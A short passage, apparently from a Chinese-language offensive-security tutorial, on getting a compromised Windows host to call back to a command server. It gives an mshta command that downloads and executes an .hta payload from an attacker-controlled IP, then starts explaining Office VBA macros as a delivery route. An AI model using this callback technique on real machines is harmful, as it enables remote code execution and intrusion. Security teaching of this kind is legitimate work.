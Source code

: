 执行上线很简单，使用 mshta 执行 .hta 文件即可。

```plaintext
mshta http://192.168.0.102:80/download/file.ext
```

#### MS Office Macro

微软 Office Word，Excel，PowerPoint 常说宏都是用 VBA（Visual Basic for Application）编写的，这个宏的作用是可以访问部分 Windows API 模拟键盘、鼠标等操作。

此功能在“视图 -> 查看宏”，英文也是“view → macros”。

![宏功能菜单位置.png](assets/1698895384-90342aa53823b390054e745ca3883192.png)

输入宏的名称，并选择宏用于哪个文档，这里选择的是“文档 1（文档）”，可以通过当前文档名确认就是当前文档。
